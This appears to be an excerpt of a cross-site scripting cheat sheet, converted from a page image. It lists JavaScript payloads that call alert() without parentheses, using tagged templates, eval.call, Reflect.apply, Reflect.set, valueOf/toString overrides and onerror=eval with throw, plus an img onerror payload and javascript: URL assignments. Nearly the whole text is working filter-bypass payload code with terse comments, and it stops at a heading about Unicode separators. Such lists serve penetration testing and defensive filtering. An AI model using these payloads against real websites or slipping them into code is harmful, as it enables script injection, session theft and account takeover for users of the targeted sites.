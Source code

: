 ````javascript
window.location='javascript:alert\x281\x29'
x=new DOMMatrix;matrix=alert;x.a=1337;location='javascript'+':'+x
// or any DOMXSS sink such as location=name

// Backtips
// Backtips pass the string as an array of lenght 1
alert`1`

// Backtips + Tagged Templates + call/apply
eval`alert\x281\x29` // This won't work as it will just return the passed array
setTimeout`alert\x281\x29`
eval.call`${'alert\x281\x29'}`
eval.apply`${[`alert\x281\x29`]}`
[].sort.call`${alert}1337`
[].map.call`${eval}\\u{61}lert\x281337\x29`

// To pass several arguments you can use
function btt(){
console.log(arguments);
}
btt`${'arg1'}${'arg2'}${'arg3'}`

//It's possible to construct a function and call it
Function`x${'alert(1337)'}x```

// .replace can use regexes and call a function if something is found
"a,".replace`a${alert}` //Initial ["a"] is passed to str as "a," and thats why the initial string is "a,"
"a".replace.call`1${/./}${alert}`
// This happened in the previous example
// Change "this" value of call to "1,"
// match anything with regex /./
// call alert with "1"
"a".replace.call`1337${/..../}${alert}` //alert with 1337 instead

// Using Reflect.apply to call any function with any argumnets
Reflect.apply.call`${alert}${window}${[1337]}` //Pass the function to call (“alert”), then the “this” value to that function (“window”) which avoids the illegal invocation error and finally an array of arguments to pass to the function.
Reflect.apply.call`${navigation.navigate}${navigation}${[name]}`
// Using Reflect.set to call set any value to a variable
Reflect.set.call`${location}${'href'}${'javascript:alert\x281337\x29'}` // It requires a valid object in the first argument (“location”), a property in the second argument and a value to assign in the third.



// valueOf, toString
// These operations are called when the object is used as a primitive
// Because the objet is passed as "this" and alert() needs "window" to be the value of "this", "window" methods are used
valueOf=alert;window+''
toString=alert;window+''


// Error handler
window.onerror=eval;throw"=alert\x281\x29";
onerror=eval;throw"=alert\x281\x29";
<img src=x onerror="window.onerror=eval;throw'=alert\x281\x29'">
{onerror=eval}throw"=alert(1)" //No ";"
onerror=alert //No ";" using new line
throw 1337
// Error handler + Special unicode separators
````